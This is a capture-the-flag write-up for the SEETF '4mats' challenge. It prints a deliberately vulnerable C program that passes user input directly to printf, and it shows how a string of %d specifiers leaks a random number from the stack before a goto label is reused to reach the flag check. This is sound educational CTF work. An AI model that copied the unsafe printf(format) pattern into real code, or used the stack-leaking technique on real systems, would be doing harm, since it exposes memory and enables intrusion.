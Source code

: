 
# 4mats

## Challenge Description
>Lets get to know each other
`nc fun.chall.seetf.sg 50001`
For beginners: -   [https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)

## Solution
We are given two files, the executable and it's source code -> `vuln`, `vuln.c`
From the challenge description, we understand that it's a string format vulnerability, now we have to spot where exactly is that vulnerability.

Looking through the source code:
```C
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char name[16];
char echo[100];
int number;
int guess;
int set = 0;
char format[64] = {0};


void guess_me(int fav_num){
    printf("Guess my favourite number!\n");
    scanf("%d", &guess);
    if (guess == fav_num){
        printf("Yes! You know me so well!\n");
		system("cat flag");
        exit(0);}
   else{
       printf("Not even close!\n");
   }
       
}


int main() {

mat1:
    printf("Welcome to SEETF!\n");
    printf("Please enter your name to register: %s\n", name);
    read(0, name, 16);

    printf("Welcome: %s\n", name);

    while(1) {
mat2:
        printf("Let's get to know each other!\n");
        printf("1. Do you know me?\n");
        printf("2. Do I know you?\n");

mat3:
        scanf("%d", &number);


        switch (number)
        {
            case 1:
                srand(time(NULL));
                int fav_num = rand() % 1000000;
		set += 1;
mat4:
                guess_me(fav_num);
                break;

            case 2:
mat5:
                printf("Whats your favourite format of CTFs?\n");
		read(0, format, 64);
                printf("Same! I love \n");
		printf(format);
                printf("too!\n");
                break;

            default:
                printf("I print instructions 4 what\n");
		if (set == 1)
mat6:
                    goto mat1;
		else if (set == 2)
		    goto mat2;
		else if (set == 3)
mat7:
                    goto mat3;
		else if (set == 4)
                    goto mat4;
		else if (set == 5)
                    goto mat5;
		else if (set == 6)
                    goto mat6;
		else if (set == 7)
                    goto mat7;
                break;
        }
    }
    return 0;
}
```

We see that the vulnerability is in the second line here: 
```C
printf("Same! I love \n");
printf(format); // vulnerable
printf("too!\n");
```

now what can we achieve with that?
We see that the flag is printed only when you guess the program's favorite number, so that means we need to use the string format vulnerability to leak out values from the stack, because the variable `fav_num` is stored on the stack.
But that is not enough, because each time we try to guess the favorite number, it generates a new favorite number :( .
However, the code is split to labels, and we see that we have a label that skips the generation of a random number, and directly asks what is the favorite number, that label is `mat4`.
To reach that label, we need to increase the variable `set` to `4` and then enter an invalid option that is not covered in the switch case, so we can reach the default section which jumps to different labels:
```c
default:
	printf("I print instructions 4 what\n");
	if (set == 1)
mat6:
	    goto mat1;
    else if (set == 2)
        goto mat2;
    else if (set == 3)
mat7:
        goto mat3;
    else if (set == 4)
        goto mat4;
    else if (set == 5)
        goto mat5;
    else if (set == 6)
        goto mat6;
    else if (set == 7)
        goto mat7;
    break;
```
To increase `set`, we need to try case 1, which increases `set` by 1 each time.

So first, we start the program, and enter option `1` four times:
```
Welcome to SEETF!
Please enter your name to register:
hello
Welcome: hello

---- first time ----
Let's get to know each other!
1. Do you know me?
2. Do I know you?
1
Guess my favourite number!
50
Not even close!

---- second time ----
Let's get to know each other!
1. Do you know me?
2. Do I know you?
1
Guess my favourite number!
50
Not even close!

---- third time ----
Let's get to know each other!
1. Do you know me?
2. Do I know you?
1
Guess my favourite number!
50
Not even close!

---- fourth time ----
Let's get to know each other!
1. Do you know me?
2. Do I know you?
1
Guess my favourite number!
50
Not even close!
```

now `set = 4`, and we can use the format string vulnerability to leak out the favorite number from the stack.
We will use `%d` specifier because we are looking for a number, `printf` will look for a value on the stack and convert it to a decimal integer.
```
Let's get to know each other!
1. Do you know me?
2. Do I know you?
2
Whats your favourite format of CTFs?
%d %d %d %d %d %d %d %d %d
Same! I love
134520960 64 134514518 1 -6646956 -6646948 983906 -135281700 -6647104
too!
```

Success! we leaked values from the stack, now we know the favorite number must be below `1000000`, because of the modulo -> `int fav_num = rand() % 1000000;`.
I checked this multiple times, and the numbers `64` and `1` stay the same every run, so the favorite number must be `983906`.

Now that we've got the favorite number, we can enter an invalid option to enter the default case, and jump to label `mat4`, there we can enter the number we found:
```
Let's get to know each other!
1. Do you know me?
2. Do I know you?
8
I print instructions 4 what
Guess my favourite number!
983906
Yes! You know me so well!
SEE{_censored_}
```
